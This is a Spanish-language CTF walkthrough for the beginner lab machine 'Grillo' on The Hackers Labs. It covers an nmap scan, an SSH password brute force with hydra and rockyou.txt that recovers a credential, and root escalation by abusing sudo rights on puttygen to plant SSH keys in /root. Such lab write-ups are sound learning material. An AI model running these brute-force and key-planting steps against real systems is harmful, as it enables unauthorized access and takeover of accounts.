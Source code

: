 ```yaml
---
title: 'The Hackers Labs: '
titleIcon: '/thl.png'
tags: [ 'Linux', 'Fuerza Bruta', 'SSH', 'Puttygen', 'Escalada de Privilegios' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Linux' ]
description: |
  Grillo es una máquina de nivel principiante en The Hackers Labs. A través del reconocimiento inicial y el análisis del servicio web, encontramos una pista útil para continuar. Luego, con algo de fuerza bruta y análisis de privilegios, logramos escalar hasta obtener la flag de root.
---
```


<font size='5'>Grillo</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

# Reconocimiento

En esta etapa inicial realizamos un escaneo de puertos para identificar los servicios activos en la máquina objetivo. Utilizamos `Nmap` con parámetros específicos para lograr un análisis más detallado.

```bash
sudo nmap -p- --open -sS -sCV --min-rate 3000 -Pn -n -oN grillo.txt 192.168.100.7 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:35 -03
Nmap scan report for 192.168.100.7
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 9c:e0:78:67:d7:63:23:da:f5:e3:8a:77:00:60:6e:76 (ECDSA)
|_  256 4b:30:12:97:4b:5c:47:11:3c:aa:0b:68:0e:b2:01:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:51:25:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.13 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 22/tcp - SSH (OpenSSH 9.2p1)
- 80/tcp - HTTP (Apache 2.4.57)

---

## Exploración Web

Ingresamos al sitio mediante el navegador accediendo a la IP descubierta en el escaneo. Nos encontramos con la página por defecto de Apache en Debian. Revisando el código fuente de la página, encontramos una pista interesante:

> "Cambia la contraseña de ssh por favor melanie."

![Página por defecto](/public/thl/principiante/grillo/defaul-page.png)


---

## Explotación

Aplicamos fuerza bruta al servicio SSH usando el usuario `melanie` y el diccionario `rockyou.txt`:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.3 -F
```

Se encuentra la contraseña válida: **trustno1**

---

## Escalada de Privilegios

Una vez dentro de la máquina, verificamos permisos con:

```bash
sudo -l
```

Descubrimos que podemos ejecutar `puttygen` como root.

### Uso de puttygen para escalar

Puttygen se utiliza para generar claves SSH. Generamos una clave para root con los siguientes pasos:

```bash
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
scp melanie@192.168.1.3:/home/melanie/.ssh/id .
ssh -i id root@192.168.1.3
```

Con esto obtenemos acceso completo como root.

---

## 🎉 ¡Root conseguido!

Hemos completado exitosamente la máquina **Grillo** de TheHackersLabs.
